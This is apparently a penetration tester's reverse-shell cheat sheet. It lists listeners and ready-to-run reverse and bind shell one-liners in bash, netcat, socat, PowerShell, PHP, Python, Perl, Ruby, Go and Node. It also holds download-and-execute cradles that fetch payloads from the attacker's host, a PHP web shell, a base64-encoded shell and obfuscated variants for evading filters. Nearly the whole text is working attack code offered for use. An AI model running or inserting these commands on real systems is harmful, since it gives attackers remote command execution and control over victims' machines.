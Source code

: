 
# Reverse Shells

## Listeners 
```bash
nc -lvnp $source_port
```
```bash
rlwrap nc -lvnp $source_port
```
```bash
socat file:tty,raw,echo=0 tcp-listen:$source_port
```

## Commands

### Linux
```bash
nc -e /bin/bash $source_ip $source_port
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $source_ip $source_port >/tmp/f
```
```bash
bash -i >& /dev/tcp/$source_ip/$source_port 0>&1
```
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$source_ip:$source_port
```
```bash
wget -q http://$source_ip/lists/static-binaries/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$source_ip:$source_port
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc $source_ip $source_port 0/tmp/p
```
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet $source_ip $source_port 0/tmp/p
```
```bash
curl http://$source_ip/tools_linux/nc -o /tmp/nc
chmod +x /tmp/nc 
/tmp/nc $source_ip $source_port -e /bin/sh
```

### Windows 
```bash
//$source_ip/$smb_share/lists/static-binaries/binaries/windows/x86/ncat.exe $source_ip $source_port  --ssl -e cmd -v 
```
```bash
nc.exe -e cmd.exe $source_ip $source_port
```
```bash
//$source_ip/$smb_share/tools_windows/bin/nc.exe $source_ip $source_port -e cmd.exe
```
```
powershell -Command "Invoke-WebRequest http://$source_ip/tools_windows/bin/nc.exe -OutFile c:/Users/Public/nc.exe" & C:/Users/Public/nc.exe -e cmd.exe $source_ip $source_port
```
```
powershell -Command "IEX(New-Object Net.WebClient).DownloadString('http://$source_ip/Invoke-LovelyPotato.ps1')"
```

#### Reverse Shell
```powershell
New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
powershell IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/payloads_windows/mini-reverse.ps1')
```

#### Bind Shell
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$source_port);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```

### ncat

#### Reverse Shell
Attacker:
```
ncat -lnvp $source_port --allow $target --ssl
```
Victim:
```
ncat -nv $source_ip $source_port -e cmd.exe --ssl
```

#### Bind Shell
Victim:
```
ncat -lnvp $source_port -e cmd.exe --allow $source_ip --ssl
```
Attacker:
```
ncat -nv $target $source_port --ssl
```

## Programming Languages

- NodeJS: <https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/>

### Linux
```bash
php -r '$sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/bash -i <&3 >&3 2>&3");?>
```
```php
<?php system($_GET["cmd"]); ?>
```
```php
<?php system("wget http://$source_ip/public/payloads_linux/shell_reverse_tcp_x86.elf -O /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```
```php
<?php system("curl http://$source_ip/public/payloads_linux/shell_reverse_tcp_x86.elf > /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```
```php
<?php system("echo \"PD9waHAgPWZzb2Nrb3BlbigiMTAuMTAuMTQuMTYiLDEyMzQpO2V4ZWMoIi9iaW4vYmFzaCAtaSA8JjMgPiYzIDI+JjMiKTs/Pgo=\" | base64 -d > /tmp/shell.php; php /tmp/shell.php"); ?>
```
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$source_ip",$source_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```python
import os;​ os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $source_ip $source_port >/tmp/f &").read()​
```
```bash
perl -e 'use Socket;$i="$source_ip";$p=$source_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```bash
ruby -rsocket -e'f=TCPSocket.open("$source_ip",$source_port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("$source_ip","$source_port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","$source_ip:$source_port");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```
```js
var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect($source_port, "$source_ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});
```
```js
var net = require("net"), sh = require("child_process").exec("\\\\x2fbin\\\\x2fbash"); var client = new net.Socket(); client.connect($source_port, "$source_ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});
```

#### Java 
- Bypass exec to get a reverse shell: <https://translate.google.lk/translate?sl=auto&tl=en&u=https%3A%2F%2Fblog.spoock.com%2F2018%2F11%2F25%2Fgetshell-bypass-exec%2F>
- exec() - breaks command into parts by `\t\n\r\f`

Replace `BASE64(-)` with the Based64 encoding of the said value.
- java.lang.Runtime.exec() Payload Workarounds: <http://www.jackson-t.ca/runtime-exec-payloads.html>

```bash
bash -c {echo,BASE64(bash -i >& /dev/tcp/$source_ip/$source_port 0>&1)}|{base64,-d}|{bash,-i}
```
```bash
bash -c {echo,BASE64(bash -i >& /dev/tcp/$source_ip/$source_port 0>&1)}|{base64,-D}|{bash,-i}
```
```
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc BASE64(calc.exe)
```
```
python -c exec('BASE64(calc.exe)'.decode('base64'))
```
```
perl -MMIME::Base64 -e eval(decode_base64('BASE64(calc.exe)'))
```

```bash
/bin/bash -c exec 5<>/dev/tcp/$source_ip/$source_port;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
bash -c bash${IFS}-i${IFS}>&/dev/tcp/$source_ip/$source_port<&1
```
```bash
bash -c $@|bash 0 echo bash -i >& /dev/tcp/$source_ip/$source_port 0>&1
```

### Windows
```bash
python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('$source_ip', $source_port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$source_ip:$source_port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
```bash
ruby -rsocket -e 'c=TCPSocket.new("$source_ip","$source_port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Upgrade Your Shell
```bash
export TERM=xterm-256color
python -c 'import pty; pty.spawn("/bin/bash")'
```
Enter ctl+z in terminal that is running reverse shell"
```bash
echo $TERM
stty -a
stty raw -echo
```
```bash
fg
```
```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 38 columns 116
```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 9999

## ICMP Shells

Disable ICMP replies:
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
- Listener/Server - <https://github.com/inquisb/icmpsh>
- Sender/Client - <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>
